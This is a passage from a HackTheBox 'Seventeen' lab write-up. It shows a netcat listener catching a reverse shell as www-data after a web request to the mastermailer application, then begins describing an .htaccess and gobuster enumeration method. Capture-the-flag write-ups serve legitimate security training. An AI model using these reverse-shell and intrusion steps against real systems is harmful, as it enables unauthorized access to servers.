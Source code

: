 Then, I sent the request, and got 200 OK response.

![](attachments/seventeen_21.png)

Then, I fetched the mailmaster's main page (http://mastermailer.seventeen.htb:8000/mastermailer/), and wait on the listener.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.165] 55546
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cb377ac091e5:/var/www/html/mastermailer$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cb377ac091e5:/var/www/html/mastermailer$ whoami
whoami
www-data
```

Soon, I got a shell as `www-data`!

### Method #2 > Modify `.htaccess` file

What’s likely blocking this file on an Apache webserver is an `.htaccess` file. This file defines custom rules for how files are handled in the current directory.
There's a designated wordlist in `seclist` for roundcube.
I used this with `gobuster`.
